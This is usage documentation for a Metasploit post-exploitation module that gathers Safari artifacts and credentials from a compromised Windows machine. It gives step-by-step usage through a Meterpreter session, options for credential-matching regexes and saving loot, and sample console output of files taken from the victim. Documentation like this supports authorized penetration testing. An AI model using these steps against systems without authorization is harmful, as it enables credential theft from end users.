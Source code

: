 ## Module Description

This post-exploitation module gathers artifacts found on safari related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/safari
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf post(windows/gather/credentials/safari) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Safari's parent folder found
[*] Safari's parent folder found
[*] Safari's Webpageicons.db file found
[*] Downloading C:\Users\IEUser\AppData\Local\Apple Computer\Safari\WebpageIcons.db
[*] Safari Webpageicons.db downloaded
[+] File saved to:  /root/.msf4/loot/20210513132035_default_192.168.56.106_safariWebpageIco_644838.db

[+] File with credentials saved:  /root/.msf4/loot/20210513132035_default_192.168.56.106_EXTRACTIONSWebpa_544464.db
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
